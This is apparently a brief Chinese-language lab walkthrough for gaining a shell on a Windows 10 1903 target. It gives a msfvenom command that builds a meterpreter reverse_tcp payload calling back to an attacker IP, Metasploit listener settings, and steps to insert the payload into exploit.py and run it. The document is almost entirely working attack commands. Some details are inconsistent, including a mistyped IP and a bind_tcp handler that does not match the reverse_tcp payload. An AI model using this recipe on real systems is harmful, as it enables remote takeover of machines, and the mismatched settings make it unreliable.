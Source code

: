 # 实验环境

攻击机 192.168,234.140(kali)

靶机   192.168.234.152(windows10_1903)

# msfvenom生成payload

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.234.140 LPORT=4444 -b '\x00' -i 1 -f python

# msf监听

use exploit/multi/handler

set payload windows/x64/meterpreter/bind_tcp

set lport 4444

set rhost 192.168.234.140

run

# poc替换

将exploit.py中USER_PAYLOAD中的payload换成msfvenom生成的payload

# getshell

python3 exploit.py -ip 192.168.234.152

![](./1.png)
